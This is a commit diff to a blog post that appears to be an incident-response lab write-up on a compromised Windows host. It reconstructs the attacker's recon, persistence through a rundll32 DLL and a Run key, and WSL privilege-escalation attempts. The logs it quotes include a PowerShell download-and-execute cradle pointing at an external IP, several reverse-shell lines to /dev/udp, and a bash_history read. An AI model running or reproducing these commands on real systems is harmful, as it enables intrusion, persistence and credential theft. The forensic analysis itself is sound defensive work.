

Before and after one commit to soreRum/soreRum.github.io, a Jekyll site: the page built from _posts/2026-03-8-Poisoned-PyTorch-Lab.md, in a window 1280 px wide and 1400 px high, scrolled down 944 px. Shown: the whole window at 94% size, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1534 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2026-03-8-Poisoned-PyTorch-Lab.md

````diff
--- a/_posts/2026-03-8-Poisoned-PyTorch-Lab.md
+++ b/_posts/2026-03-8-Poisoned-PyTorch-Lab.md
@@ -25,9 +25,84 @@
 ```
 nltestrk.exe
 "C:\Windows\system32\nltest.exe" /domain_trusts
+"C:\Windows\system32\nltest.exe" /domain_trusts /all_trusts
 which most likely came from this -> powershell -nop -exec bypass -EncodedCommand bgBsAHQAZQBzAHQAIAAvAGQAbwBtAGEAaQBuAF8AdAByAHUAcwB0AHMA
 ```
 What Im noticing is the attacker is supplying the target recon commands via PS as an encoded command which decodes right after to execute.
 
-Peristence
+Persistence
 ----------
+
+The attacker dropped a secondary payload for persistence
+```
+powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((new-object net.webclient).downloadstring('http://54.93.78.216:80/a'))"
+....
+RUNDLL32.EXE
+rundll32.exe  C:\Users\michelvic\AppData\Roaming\updlate.dll, StartW
+c:\Users\michelvic\torch-inference-stack\
+timestamp: 2/2/2026 1:47:34 AM
+```
+this coorelates with the network logs
+```
+timestamp: 2/2/2026 1:47:36 AM
+C:\Windows\System32\rundll32.exe
+UNUCORB\michelvic
+tcp
+True
+False
+10.10.11.92
+-
+60120
+-
+False
+54.93.78.216
+-
+80
+-
+```
+
+This file creation activity/execution shows that the persistent payload was stored in a user-writeable directory. Lets grab the sha256 hash of the persistent DLL.
+sha256: `
+
+This DLL peformed registry modification to persist the DLL. The benign-looking value name it used to blend in with legit software is `Updater`
+```
+timestamp: 2/2/2026 1:48:39 AM
+C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
+HKU\S-1-5-21-3415631042-2785832853-3881933999-1167\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Updater
+rundll32.exe "C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW
+UNUCORB\michelvic
+```
+
+Privesc
+-------
+
+The attacker did escalate privs but before that, a privesc attempt was made to abuse an installed Windows feature that failed
+```
+C:\Windows\system32\cmd.exe /C where /R c:\windows bash.exe
+C:\Windows\system32\cmd.exe /C where /R c:\windows wsl.exe
+C:\Windows\system32\cmd.exe /C wsl whoami
+C:\Windows\system32\cmd.exe /C wsl whoami
+then logged internal linux processes
+all done under the same user: UNUCORB\michelvic
+
+then
+C:\Windows\system32\cmd.exe /C wsl -u root <- attempt to escalate inside WSL
+same logged internal linux processes
+still under UNUCORB\michelvic
+
+then ran C:\Windows\system32\cmd.exe /C wsl whoami
+still under UNUCORB\michelvic
+ran this C:\Windows\system32\cmd.exe /C wsl.exe cat ~/.bash_history <- looking for credentials/history
+still under UNUCORB\michelvic
+
+ran this C:\Windows\system32\cmd.exe /C wsl sudo whoami <- attempting sudo escalation
+under the same UNUCORB\michelvic user
+
+attempting a reverse shell from WSL
+then ran C:\Windows\system32\cmd.exe /C wsl sudo sh -i >& /dev/udp/18.197.226.152/4242 0>&1
+and
+C:\Windows\system32\cmd.exe /C wsl sh -i >& /dev/udp/18.197.226.152/4242 0>&1
+and
+C:\Windows\system32\cmd.exe /C wsl sh -i >& /dev/udp/18.197.226.152/4242
+under the same UNUCORB\michelvic user
+```
````
